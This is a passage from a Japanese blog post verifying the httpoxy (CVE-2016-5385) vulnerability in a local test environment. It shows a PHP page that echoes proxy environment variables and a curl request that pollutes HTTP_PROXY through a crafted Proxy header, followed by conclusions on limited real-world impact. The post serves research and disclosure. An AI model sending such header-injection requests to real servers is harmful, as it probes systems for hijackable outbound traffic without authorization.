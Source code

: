 ```php
    echo "HTTP_PROXY_PASS variable is false";
}else{
    echo "HTTP_PROXY_PASS variable is ".getenv('HTTP_PROXY_PASS');
}

echo "\n";
// HTTP_PROXY_HOST
if (getenv('HTTP_PROXY_HOST') == false) {
    echo "HTTP_PROXY_HOST variable is false";
}else{
    echo "HTTP_PROXY_HOST variable is ".getenv('HTTP_PROXY_HOST');
}

echo "\n";
// HTTP_PROXY_PORT
if (getenv('HTTP_PROXY_PORT') == false) {
    echo "HTTP_PROXY_PORT variable is false";
}else{
    echo "HTTP_PROXY_PORT variable is ".getenv('HTTP_PROXY_PORT');
}

echo "\n";
?>
</body>
</html>
```

```
$ curl -H 'PROXY: VLUN' -H 'PROXY_USER: VLUN' -H 'PROXY_PASS: VLUN' -H 'PROXY_HOST: VLUN' -H 'PROXY_PORT: VLUN'  http://scapegoat.test/test.php
<html>
<head>
<title>title httpoxy proof of concept</title>
<body>
HTTP_PROXY variable is VLUN
HTTP_PROXY_USER variable is false
HTTP_PROXY_PASS variable is false
HTTP_PROXY_HOST variable is false
HTTP_PROXY_PORT variable is false
</body>
</html>
```

上記[検証環境](https://kosukeshimofuji.jp/2016/07/19/httpoxy/#cve-2016-5385についての検証)ではHTTP_PROXY変数以外は汚染することができませんでした。

# まとめ

 * 中間者攻撃と併用して第三者を攻撃するメリットはないように思える。
 * 内部のAPI通信にHTTPSを使っていれば、攻撃者ができるのは暗号化された通信を溜め込んでおくことぐらいになる。

# 参考文献

 * [httpoxy脆弱性の公式ページ](https://httpoxy.org/)
 * [osssec](http://seclists.org/oss-sec/2016/q3/95)
 * [Akamai Mitigates httpoxy Vulnerability](https://blogs.akamai.com/2016/07/akamai-mitigates-httpoxy-vulnerability.html)

